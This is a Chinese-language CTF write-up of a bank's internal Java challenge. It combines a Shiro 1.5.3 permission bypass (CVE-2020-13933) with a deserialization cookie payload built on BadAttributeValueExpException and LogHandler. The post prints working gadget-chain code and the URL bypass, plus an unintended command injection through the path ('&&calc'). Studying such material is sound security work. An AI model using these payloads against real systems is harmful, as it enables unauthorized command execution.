








# 一道shiro反序列化题目引发的思考

# 前言

文章首发：<https://www.anquanke.com/post/id/231488>

   这是某银行的内部的一个CTF比赛，受邀参加。题目三个关键词`权限绕过`、`shiro`、`反序列化`，题目源码已经被修改，但考察本质没有，题目源码会上传到[JavaLearnVulnerability](https://github.com/SummerSec/JavaLearnVulnerability)。

---

# 黑盒测试

- xray测试shiro的key
- dirsearch跑目录
- sqlmap测试登陆框是否存在sql注入

---

# 白盒代码审计

## 源码初步分析

- 版本 shiro == 1.5.3（不存在remember反序列化漏洞，但存在CVE-2020-13933权限绕过漏洞）  
  

---

- shiro验证通过Realm的方式判断用户是否合法，此处重写`doGetAuthorizationInfo`方法，账户名`admin`（可能有用）。

```java
protected AuthenticationInfo doGetAuthenticationInfo(AuthenticationToken authenticationToken) throws AuthenticationException {
        String username = (String)authenticationToken.getPrincipal();
        if (!"admin".equals(username)) {
            throw new UnknownAccountException("unkown user");
        } else {
            return new SimpleAuthenticationInfo(username, UUID.randomUUID().toString().replaceAll("-", ""), getName());
        }
    }
```

---

- 访问控制权限，可能看到`index`、`dologin`存在访问权限。
  > ```
  > * anon：匿名用户可访问
  > * authc：认证用户可访问
  > * user：使用rememberMe可访问
  > * perms：对应权限可访问
  > * role：对应角色权限可访问
  > ```

```java
@Bean
ShiroFilterFactoryBean shiroFilterFactoryBean() {
    ShiroFilterFactoryBean bean = new ShiroFilterFactoryBean();
    bean.setSecurityManager(this.securityManager());
    bean.setLoginUrl("/login");
    Map<String, String> map = new LinkedHashMap();
    map.put("/doLogin", "anon");
    map.put("/index/*", "authc");
    bean.setFilterChainDefinitionMap(map);
    return bean;
}
```

---

- `SQL注入？`第一眼反应感觉可能存在注入漏洞或者是XSS但又想到是CTF比赛，应该是不会考察XSS，所以觉得是SQL注入漏洞，然后用SQLMAP尝试一波注入绕过后，没有发现SQL注入漏洞。

```java
@Override
    public String filter(String param) {
        String[] keyWord = new String[]{"'", "\"", "select", "union", "/;", "/%3b"};
        String[] var3 = keyWord;
        int var4 = keyWord.length;

        for(int var5 = 0; var5 < var4; ++var5) {
            String i = var3[var5];
            param = param.replaceAll(i, "");
        }

        return param;
    }
```

---

- 远程命令执行？翻遍代码发现调用`exeCmd`方法只有`LogHandler`。

```java
public static String exeCmd(String commandStr) {
        BufferedReader br = null;
        String OS = System.getProperty("os.name").toLowerCase();

        try {
            Process p = null;
            if (OS.startsWith("win")){
                p = Runtime.getRuntime().exec(new String[]{"cmd", "/c", commandStr});
            }else {
                p = Runtime.getRuntime().exec(new String[]{"/bin/bash", "-c", commandStr});
            }

            br = new BufferedReader(new InputStreamReader(p.getInputStream()));
            String line = null;
            StringBuilder sb = new StringBuilder();

            while((line = br.readLine()) != null) {
                sb.append(line + "\n");
            }

            return sb.toString();
        } catch (Exception var5) {
            var5.printStackTrace();
            return "error";
        }
    }
```

---

# 灰盒测试

- 根据获取的账号`admin`尝试爆破（无果）
- sql注入再次尝试根据前面过滤掉参数进行bypass（无果），后期发现根本没有数据库链接操作，不可能存在sql注入。
- 根据获取的shiro版本可知，没有shiro反序列化漏洞但有权限绕过（成功）。

   目前为止只能根据页面知道，该页面是一个`访问日志`展示页面。  
 

---

# 源码深度刨析

## 深度分析

   Javaweb题目当然还是得从web页面分析，看源码分析一共就两个类访问控制器是处理web请求的。

- `IndexController`处理登录前后页面
- `LoginController`处理登录请求页面  
     前面分析到没有数据库，在源码也没发现登录的账号和密码故不用考虑 `LoginController`类，深度分析`IndexController`类发现该类存在反序列化操作。

```java
@GetMapping({"/index/{name}"})
    public String index(HttpServletRequest request, HttpServletResponse response, @PathVariable String name) throws Exception {
        Cookie[] cookies = request.getCookies();
        boolean exist = false;
        Cookie cookie = null;
        User user = null;
        if (cookies != null) {
            Cookie[] var8 = cookies;
            int var9 = cookies.length;

            for(int var10 = 0; var10 < var9; ++var10) {
                Cookie c = var8[var10];
                //判断cookie中是否存在hacker字段
                if (c.getName().equals("hacker")) {
                    exist = true;
                    cookie = c;
                    break;
                }
            }
        }
        
		// 存在hacker字段，执行反序列化操作
		// 
        if (exist) {

            byte[] bytes = Tools.base64Decode(cookie.getValue());
            //反序列化操作点
            user = (User)Tools.deserialize(bytes);

        } else {
        // 没有hacker字段，添加一个并设置其值
            user = new User();
            user.setID(1);
            user.setUserName(name);
            cookie = new Cookie("hacker", Tools.base64Encode(Tools.serialize(user)));
            response.addCookie(cookie);
        }
		// 添加值到前端页面
        request.setAttribute("hacker", user);
        request.setAttribute("logs", new LogHandler());
        return "index";
    }
```

- 前端源码  
  
- `存在反序列化点，下一步肯定构造反序列化请求，但如何构造反序列化请求呢？`前文提及到调用`exeCmd`方法只有`LogHandler`类。分析该类，两个方法都调用`exeCmd`执行命令。`invoke`方法里面调用的`exeCmd`是执行`wirteLog`命令，而`toString`方法里面调用`exeCmd`是执行`readLog`命令。

```java
public class LogHandler extends HashSet implements InvocationHandler {

    private Object target;
    private String readLog = "tail  accessLog.txt";
    private String writeLog = "echo /test >> accessLog.txt";

    public LogHandler() {
    }

    public LogHandler(Object target) {
        this.target = target;
    }
		
    @Override
    // 请求url路径写入访问日志
    public Object invoke(Object proxy, Method method, Object[] args) throws Throwable {
        Tools.exeCmd(this.writeLog.replaceAll("/test", (String)args[0]));
        return method.invoke(this.target, args);
    }

    @Override
    // 读取日志返回结果
    public String toString() {
        return Tools.exeCmd(this.readLog);
    }
}
```

---

## 小结

总结下目前为止所有的信息点：

1. 存在权限绕过，URL：`index/%3b/admin`(/%3b可以是`/'/`, `select`, `union`, `/;`之一)
2. 存在反序列化点`IndexController#index`，构造请求`cookie`一定要有`hacker`字段。
3. `index/admin`是访问日志
4. 反序列化执行的点在`LogHandler`其中的两个方法

---

## Payload构造

下面两端代码分别是通过反射调用`invoke`和`toString`方法达到执行命令目的，对比一下很明显`toString`方法更加的简单质朴。

```java
public void invoke() throws Throwable {
    LogHandler logHandler = new LogHandler();
    Field wirtelog = logHandler.getClass().getDeclaredField("writeLog");
    wirtelog.setAccessible(true);
    wirtelog.set(logHandler, "calc");
    Object ob = new Object();
    Method method = logHandler.getClass().getMethod("invoke", Object.class, Method.class, Object[].class);
    Object[] obs = new Object[]{"asd","asd"};
    logHandler.invoke(ob,method,obs);
}
```



```java
public void ToString() throws NoSuchFieldException, IllegalAccessException {
        LogHandler logHandler = new LogHandler();
        Field readlog = logHandler.getClass().getDeclaredField("readLog");
        readlog.setAccessible(true);
        readlog.set(logHandler, "calc");
        logHandler.toString();

    }
```



---

   反序列化点get！反序列化目标get！最后一步构造反序列化链！现在缺少一个封装类将构造好的类封装发给服务器直接反序列化，`ysoserial`其中的CC5中使用的`BadAttributeValueExpException`异常类满足要求。最终Payload如下：

---

```java
public static void Calc() throws Throwable {
    LogHandler logHandler = new LogHandler();
    Field readlog = logHandler.getClass().getDeclaredField("readLog");
    readlog.setAccessible(true);
    readlog.set(logHandler, "calc");
    BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException(null);
    Field field = badAttributeValueExpException.getClass().getDeclaredField("val");
    field.setAccessible(true);
    field.set(badAttributeValueExpException, logHandler);
    String datas = Tools.base64Encode(Tools.serialize(badAttributeValueExpException));
    System.out.println("Cookie: " + "hacker="+ datas);

}
```



---

## 非预期–执行命令

**效果如下：访问/index/admin&&calc会执行命令**


### 原因分析

   根本原因在下面这一段，作者没有考虑到用户会使用管道来执行命令，直接将url路径直接就写访问日志中，导致执行命令。

```java
public Object invoke(Object proxy, Method method, Object[] args) throws Throwable {
        Tools.exeCmd(this.writeLog.replaceAll("/test", (String)args[0]));
        return method.invoke(this.target, args);
    }
```

---

# 知识补充

   写到这，其实是对shiro一些知识的补充。前期对shiro了解较少，后期做了大量知识补充。官方给的是jar包，反编译之后改成自己的踩了 一些坑。顺便记录一下，只想看题目分析的可以Pass。

1. 下面是自己不仔细导致错误，其实都知道，但是忘记了

   - User没有实现`Serializable接口`导致报错，不能反序列化
   - User类没有`serialVersionUID`导致报错，版本不一致
2. Tools类没有判断操作系统的版本，导致执行命令不成功  
   
3. tail命令在windows系统是没有的，导致无法生成acessLog.txt文件
4. tail加了-f参数导致服务器一直读取文件，导致长时间不回显
5. 注释掉`MyFilter`中`Component`就是shiro原本的CVE-2020-13933漏洞  
   
6. 学习了b站关于shiro内容[【狂神说Java】SpringBoot整合Shiro框架](https://www.bilibili.com/video/BV1NE411i7S8)

---

# 总结

```plain
*              Gadget：
*                  Tools.base64Decode()
*                      Tools.deserialize()
*                          ObjectInputStream.readObject()
*                              BadAttributeValueExpException.readObject()
*                                  LogHandler.toSting()
*                                      Tools.exeCmd()
```

   当时写这个题目的时候已经无限接近答案了，只是当时不确定怎么封装类。不得不说CC链还是不熟悉，没有完全吃透，不得不说CC永远的神！

---

# 参考

<https://github.com/SummerSec/JavaLearnVulnerability>  
<https://www.bilibili.com/video/BV1NE411i7S8>
